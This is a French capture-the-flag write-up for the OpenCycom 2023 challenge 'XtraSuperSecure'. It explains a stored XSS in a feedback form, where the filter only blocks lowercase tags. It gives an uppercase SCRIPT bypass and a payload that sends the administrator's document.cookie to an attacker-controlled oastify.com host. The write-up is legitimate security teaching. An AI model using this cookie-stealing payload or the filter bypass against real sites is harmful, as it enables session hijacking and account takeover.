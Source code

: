 ```yaml
---
title: "XtraSuperSecure"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - XtraSuperSecure - *200 pts*

## Énoncé
Donnez votre avis sur l'évènement (et essayez de voler les cookies de l'administrateur) !

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution

Bon, je dois voler les cookies de l'admin, donc on est surement face à des attaques côté client (XSS ou CSRF). Le titre du chall nous donne également un indice sur la vulnérabilité à exploiter (XtraSuperSecure => XSS).

Ici, lorsque je laisse un message, il apparait dans une liste en bas de la page, qui se réinitialise quand l'admin passe regarder les avis.

![](/images/2023/016/01.png)

Je peux essayer d'insérer un payload XSS basique, avec une balise `script`.

![](/images/2023/016/02.png)

Mais on dirait qu'une protection est en place pour empêcher les attaques XSS.

![](/images/2023/016/03.png)

Pas de panique, on peut essayer de contourner la protection en utilisant diverses techniques, et après quelques essais, on trouve que la sanitisation ne s'effectue que sur les caractères minuscules.

Du coup un payload comme `<SCRIPT>alert(1)</SCRIPT>` fonctionne !

![](/images/2023/016/04.png)

![](/images/2023/016/05.png)

On remarque que la balise script est correctement écrite et interprétée correctement par le navigateur.

![](/images/2023/016/06.png)

À partir de là, nous pouvons crafter un payload qui va exfiltrer les cookies de l'administrateur vers une page web que nous contrôlons. Pour ce faire, on peut utiliser des services comme `Beeceptor` ou `RequestBin`.

Ici, mon script ajoute une simple balise `img`, qui va charger une image sur mon site malveillant, avec le cookie de l'administrateur.

```<SCRIPT>document.body.innerHTML = `<IMG src='http://oxpw0avtydduwu22k93fc71el5rwfn5bu.oastify.com/${document.cookie}'></IMG>`</SCRIPT>```

![](/images/2023/016/07.png)

On attend un peu, et le flag apparait !

![](/images/2023/016/08.png)

*FLAG : OPC{b0y\*\*\*\*\*\*\*\*\*\*}*
